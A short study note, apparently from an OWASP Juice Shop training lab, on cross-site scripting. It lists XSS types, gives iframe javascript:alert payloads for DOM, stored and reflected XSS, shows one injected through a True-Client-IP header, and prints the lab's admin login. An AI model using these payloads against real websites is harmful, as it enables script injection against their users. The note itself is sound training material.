 # Where did that come from? 

OWASP TOP 10 - Cross-site Scripting

Three major types of XSS:
- DOM Based 
- Stored/Persistent XSS (server-side)
- Reflected XSS (client-side)

## Practical

### DOM XSS
```
<iframe src="javascript:alert('xss')">
<iframe src="javascript:alert(`xss`)"> 
```


### Persistent XSS

admin@juice-sh.op:admin123

Add XSS Payload in HTTP headers before forwarding the logout request
```
True-Client-IP: <iframe src="javascript:alert(`xss`)">
```

![8d6ad0c47eebd90085d199cdaf293702.png](_resources/d1fab5aaaf064b66ba69cb0e5cd8671e.png)


### Reflected XSS

```
<iframe src="javascript:alert(`xss`)">
```

![b8c1563c17e59b42af2ea0a66484f51d.png](_resources/90b3bfc1a41d4b62a44ca9efd5202dfd.png)